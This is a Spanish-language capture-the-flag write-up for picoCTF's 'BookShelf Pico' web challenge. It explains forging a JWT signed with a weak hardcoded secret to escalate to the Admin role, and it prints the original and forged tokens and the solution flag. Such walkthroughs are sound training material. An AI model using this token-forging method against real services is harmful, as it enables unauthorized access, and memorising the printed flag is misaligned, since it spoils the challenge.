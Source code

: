 ## Descripción 
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Here are the credentials to get you started:
- Username: "user"
- Password: "user"
Source code can be downloaded [here](https://artifacts.picoctf.net/c/482/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:49959/).

Hint:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4. Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
## Solución 1

Ingresamos a la página e ingresamos al apartado de bandera y nos fijamos que está bloqueada, entonces con inspector verificamos el network y sacamos el jwt, una vez lo tenemos abrimos el archivo de source code y miramos cada apartada viendo como cada parte necesaria para modificar el jwt, una vez tenemos esto, en un debugger modificamos el jwt y lo remplazamos así obteniendo la bandera.

```
jwt: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTQ3MDk0OSwiaWF0IjoxNzQ0ODY2MTQ5LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.RchxYLgCtyQlqFYkcY-VmQx0odSgCMhqnc9UaffSdnc

role: Admin
userID: 2
email: admin
secret: 1234

jwt modificado: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDU0NzA5NDksImlhdCI6MTc0NDg2NjE0OSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.qxJcixJnM209a9RiQrdbTSObsos5_3EeSQdk_-tg1HU

flag: picoCTF{w34k_jwt_n0t_g00d_d72df65e}
```
